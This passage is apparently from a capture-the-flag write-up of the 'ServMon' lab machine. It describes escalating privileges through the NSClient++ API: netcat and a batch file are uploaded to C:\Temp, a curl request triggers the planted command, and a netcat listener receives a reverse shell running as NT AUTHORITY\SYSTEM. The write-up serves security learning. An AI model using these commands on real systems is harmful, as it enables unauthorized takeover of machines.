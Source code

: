 ```text
21/06/2020  13:12                 0 evil.bat
21/06/2020  14:36            59,392 nc.exe
               2 File(s)         59,392 bytes
               2 Dir(s)  27,866,644,480 bytes free

```

I was not the only to make mistakes while transferring files to this machine.  Another user had tried to upload `nc.exe` \(_I overwrote this_\) and their `evil.bat` to the `C:\Temp` folder but had failed \(_file size of 0 bytes seen above_\).  I figured out that had forgotten to add `--output <file_name>` at first.  Luckily it gave a warning to remind me of this.  

```text
nadine@SERVMON C:\Temp>curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1m
Enter host password for user 'admin':

{"command":"evil","lines":[{"message":"Command evil didn't terminate within the timeout period 60s","pe
rf":{}}],"result":3}
```

Despite the error message seen above, once I successfully uploaded `nc.exe` to the folder I had specified in my payload `C:\Temp`, and then sent the execute query once again, I received my reverse shell on my host machine.  The error message above I believe is to let an administrator know that there was a long-running script that did not terminate within the specified timeout period.  

### Getting a root shell

```text
zweilos@kalimaa:~$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.20] from (UNKNOWN) [10.10.10.184] 49698
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
```